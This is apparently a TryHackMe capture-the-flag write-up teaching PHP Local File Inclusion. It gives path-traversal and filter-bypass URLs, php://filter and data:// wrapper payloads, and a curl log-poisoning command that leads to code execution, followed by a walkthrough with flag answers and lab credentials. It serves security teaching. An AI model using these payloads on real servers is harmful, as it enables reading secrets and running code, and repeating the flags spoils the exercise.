# Introduction

## Story

During a routine security audit before the Incident, McSkidy discovered some recovery passwords on an old server. She created a ticket to decommission this server to reduce this security vulnerability. The Elf assigned to fix this vulnerability kept pushing off the task, and this never got done. Luckily, some of those recovery keys can be used to save some systems.

Unfortunately, the only way to access the server is through an old web application. See if you can pull out those recovery keys to help McSkidy with her pursuit to save Christmas.

## Learning Objectives

1. In this task, we will be covering the basics of a Local File Inclusion (LFI) vulnerability, including how to identify and test for LFI. We will also show the impact of an LFI vulnerability by exploiting it.

Let's begin by starting the machine attached to this task
---

## What is a Local File Inclusion (LFI) vulnerability?

An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

- include  
- require  
- include_once  
- require_once 

It is a web application vulnerability that allows the attacker to include and read local files on the server. These files could contain sensitive data such as cryptographic keys, databases that contain passwords, and other private data. An LFI  vulnerability happens due to a developer's lack of security awareness. In some cases, developers need to include the content of other local files within a specific page. Suppose a developer includes files without proper input validation. In that case, the LFI vulnerability will exist as a developer should never trust user input and keep all inputs from users to be filtered and sanitized. The main issue of these vulnerabilities is the lack of input validation, in which the user inputs are not sanitized or validated, and the user controls them.

## What is the risk of LFI?

Once you find an LFI vulnerability, it is possible to read sensitive data if you have readable permissions on files. Thus, one of the most significant risks is leaking sensitive data accessed by a regular user. Also, in some cases, an LFI vulnerability could be chained to perform Remote Code Execution RCE on the server. If we can inject or write to a file on the system, we take advantage of LFI to get RCE. In this task, we prepared a web application with an LFI vulnerability and a possible way to get RCE. We'll be looking at this web application later.

### Identifying and testing for LFI

Usually, attackers are interested in HTTP parameters to manipulate the input and inject attack payloads to see how the web application behaves. In general, if you are looking for an entry point to test web application attack types, then it is important to use the web app and check its functionalities. An entry point could be HTTP `GET` or `POST` parameters that pass an argument or data to the web application to perform a specific operation. 

Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following graph explains and breaks down the essential parts of the URL.



For example, parameters are used with Google searching, where `GET` requests pass user input into the search engine. https://www.google.com/search?q=TryHackMe. If you are not familiar with the topic, you can view the [How The Web Works](https://tryhackme.com/module/how-the-web-works) module to understand the concept.  

Once you find an entry point, we need to understand how this data could be processed within the application. After this point, you can start testing for certain vulnerability types using manual or automated tools. The following is an example of PHP code that is vulnerable to LFI. 



The PHP code above uses a `GET` request via the URL parameter file to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=welcome.txt` to load the content of the `welcome.txt` file that exists in the same directory.

**In addition, other entry points can be used depending on the web application, and where can consider the User-Agent, Cookies, session, and other HTTP headers.**

Now that we found our entry point, let's start testing for reading local files related to the operating system. The following are some Linux system files that have sensitive information.

- /etc/issue  
- /etc/passwd  
- /etc/shadow  
- /etc/group  
- /etc/hosts  
- /etc/motd  
- /etc/mysql/my.cnf  
- /proc/[0-9]\*/fd/[0-9]\*   (first number is the PID, second is the filedescriptor)  
- /proc/self/environ  
- /proc/version  
- /proc/cmdline

Let's start with basic testing of LFI. Once we identify the entry point or the HTTP parameter, we can begin testing and include OS files to see how the web application reacts. As a test case, we can always try /etc/passwd against Linux OS since it is readable for sure. We can also try to include using different techniques such as

- A direct file inclusion, which starts with `/etc/passwd`  
- using .. to get out the current directory, the number of .. is varies depending on the web app directory.  
- Bypassing filters using `....//`.  
- URL encoding techniques (such as double encoding)

You can review the topic in the file [inclusion room](https://tryhackme.com/room/fileinc) for more information on these techniques.

`http://example.thm.labs/page.php?file=/etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

Once you have successfully viewed the content of the `/etc/passwd` file, you can test for other files.

**Now, start the attached machine by using the green Start Machine button in this task, and apply what we discussed so far and answer the questions below**. In order to access the website, you can either deploy the AttackBox or visit the following website link: `https://LAB_WEB_URL.p.thmlabs.com`.

### Exploiting LFI

Exploiting an LFI sometimes is limited and depends on the web application server configuration. Besides reading sensitive data, often, we can obtain remote code execution. If we are dealing with a PHP web application, then we can use a PHP-supported Wrapper. For more information, visit the [PHP manual page](https://www.php.net/manual/en/wrappers.php.php). PHP provides various methods of transmission of data (Input/Output stream) to allow PHP to read from. It will enable reading data via various data type channels.

### PHP Filter

The PHP filter wrapper is used in LFI to read the actual PHP page content. In typical cases, it is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. However, we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`. 

Let's try first reading the `/etc/passwd` file using the PHP filter wrapper.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

Now try to read the `index.php` file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while `base64` or `ROT13` encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`

We will try to use base64 for our scenario. As a result, we will get `base64` encoded output as follows:

`cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDox******Deleted`

To read this text as plain text, you can use a Linux terminal or use one of the websites that decodes online, for example, [www.base64decode.org](https://www.base64decode.org/).

**Now, try to retrieve the index.php content, and answer question #3 below.**

### PHP DATA

The PHP wrapper is used to include raw plain text or base64 encoded data. It is used to include images on the current page. It is being used in LFI exploit. 

Let's try to base64 encode "AoC3 is fun!" text to include it into the page using wrapper data:



Also, we could decode a base64 as follows:



Now we can include our base64 data into the vulnerable page as follows,

`http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==`

As a result, the page will show our lovely message, which is `AoC3 is fun!`. Using this technique, we can include PHP code into a page, by encoding the required PHP code and including it into PHP data wrapper. **You can do some research to check them out!**

Other PHP wrappers could be used in the LFI vulnerability. You can do some research to check them out!

As we mentioned before, we can gain remote command execution if we have the ability to write into a file or chain it with other vulnerability types. In this task, we will be using the vulnerable web application that we provided to perform an RCE via LFI.

### LFI to RCE via Log files

It is also called a log poisoning attack. It is a technique used to gain remote command execution on the webserver. The attacker needs to include a malicious payload into services log files such as Apache, SSH, etc. Then, the LFI vulnerability is used to request the page that includes the malicious payload. Exploiting this kind of attack depends on various factors, including the design of the web application and server configurations. Thus, it requires enumerations, analysis, and an understanding of how the web application works. For example, a user can include a malicious payload into an apache log file via User-Agent or other HTTP headers. In SSH, the user can inject a malicious payload in the username section. 

In this task, we provided a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at https://LAB_WEB_URL.p.thmlabs.com/logs.php.



We can see that the log page stores four different headers, including username, IP address, [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent), and the visited page.  The `User-Agent` is an HTTP header that includes the user's browser information to let servers identify the type of operating system, vendor, and version. The User-Agent is one of the HTTP headers that the user can control. Therefore, in order to get the RCE, you need to include PHP code into `User-Agent` and send a request to the log file using the LFI to execute in the browser.  Now, let's test if we can include `User-Agent` value into the web application log file, and see if our record is recorded!



Once we send the HTTP request using curl, now using a registered user, we can check the log page to see if we can add the User-Agent that we sent.



Nice! we were able to include the User-Agent value we wanted. Now, let's inject PHP code into the User-Agent using the browser, terminals, or web proxies such as Burp Suite. In this task, we will show how to include our code into the web app log using the terminal as follows,

Now using the LFI, load the log file to get the PHP code executed. Note that it is important to visit the log file via LFI. Once you call the log file, we see the PHP information page.



Now it is practice time. We have to apply what we discussed to gain RCE. We have to include PHP code into the User-Agent and then use the LFI vulnerability called the log file to get your PHP code executed, then answer the question below.

### LFI to RCE via PHP Sessions

The LFI to RCE via PHP sessions follows the same concept of the log poisoning technique. PHP sessions are files within the operating system that store temporary information. After the user logs out of the web application, the PHP session information will be deleted.

This technique requires enumeration to read the PHP configuration file first, and then we know where the PHP sessions files are. Then, we include a PHP code into the session and finally call the file via LFI. PHP stores session data in files within the system in different locations based on the configuration. The following are some of the common locations that the PHP stores in:

- c:\Windows\Temp  
- /tmp/  
- /var/lib/php5  
- /var/lib/php/session

Once the attacker finds where PHP stores the session file and can control the value of their session, the attacker can use it to a chain exploit with an LFI to gain remote command execution.

If we enumerate and read the PHP configuration of the vulnerable web application we provided, we can see that it stores the PHP sessions into the `/tmp` directory. It also stores the value of the username into the session even if you are not logged in since this value is needed by the developer to use it in the logs function. We inject the PHP code into the user section in the following figure, stored in the PHP session file.



To find the PHP session file name, PHP, by default uses the following naming scheme, `sess_<SESSION_ID>` where we can find the `SESSION_ID` using the browser and verifying cookies sent from the server.

To find the session ID in the browser, you can open the developer tools (SHIFT+CTRL+I), then the Application tab. From the left menu, select Cookies and select the target website. There is a `PHPSESSID`  and the value. In my case, the value is `vc4567al6pq7usm2cufmilkm45`. Therefore, the file will be as `sess_vc4567al6pq7usm2cufmilkm45`. Finally, we know it is stored in `/tmp`. Now we can use the LFI to call the session file.



`https://LAB_WEB_URL.p.thmlabs.com/login.php?err=/tmp/sess_vc4567al6pq7usm2cufmilkm45`

As a result, we will have the PHP code that we injected into the username file shown on the page. Now apply what we discussed to gain RCE on the webserver using the LFI to RCE via PHP sessions. Now it is your turn to try to get RCE via PHP session.

---

## Additional Resources

If you are interested in learning more about file inclusion vulnerabilities, check out the [file inclusion room](https://tryhackme.com/room/fileinc) on TryHackMe.

# Questions

> Deploy the attached VM and look around. What is the entry point for our web application?

Answer: **err**

> Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

Answer: **THM{d29e08941cf7fe41df55f1a7da6c4c06}**

> Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?

Answer: **THM{791d43d46018a0d89361dbf60d5d9eb8}**

> McSkidy forgot his login credential. Can you help him to login in order to recover one of the server's passwords?

> Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

Answer: **McSkidy:A0C315Aw3s0m**

> Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server? 

Answer: **THM{552f313b52e3c3dbf5257d8c6db7f6f1}**

> The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.

Answer: **lfi-aoc-awesome-59aedca683fff9261263bb084880c965**

> Bonus: The current PHP configuration stores the PHP session files in /tmp. Use the LFI to call the PHP session file to get your PHP code executed. 

**No Answer Needed**

===============================================================================

Start by launching the **vulnerable machine attached to this task** and navigate on a new browser tab to [https://LAB_WEB_URL.p.thmlabs.com](https://lab_web_url.p.thmlabs.com/), where the <LAB_WEB_URL> is the IP address provided when you start the vulnerable machine.

Upon visiting the URL, you will encounter the page asking you to login:



Change the last part of the URL to see if LFI vulnerability exists:  
`https://10-10-108-225.p.thmlabs.com/index.php?err=/etc/passwd`



LFI vulnerability exists. Navigate to `/etc/flag` to get the answer.



For Qn 3, Use the PHP filter wrapper to manipulate and get the flag hidden in `/var/www/html/index.php`.  
You will require the use of base64-encoding to get the output first.  
Enter the following URL: `https://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=/var/www/html/index.php`



Copy the long base64-encoded string output, use the [base64 decoding website](https://www.base64decode.org/) to decode the string and get the flag:



From the above, we can also see that there is a `./includes/creds.php` PHP file that is added.  
Using the same PHP filter wrapper method, navigate to the following:  
`https://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=/var/www/html/includes/creds.php`

Again, use the [base64 decoding website](https://www.base64decode.org/) to decode the string and get the username and password for Qn 4:  



Log in using the username and password, then click on the Password Recovery link to get the flag for Qn 5:  



For Qn 6, use the terminal to inject PHP code into the User-Agent:  
`curl -A "<?php phpinfo();?>" http://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/login.php`

Then load the log file to get the PHP code executed by visiting the following:  
`https://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/index.php?err=/var/www/html/includes/logs/app_access.log`

Scroll down to find the PHP page, and find the Webserver Hostname for Qn 6:  

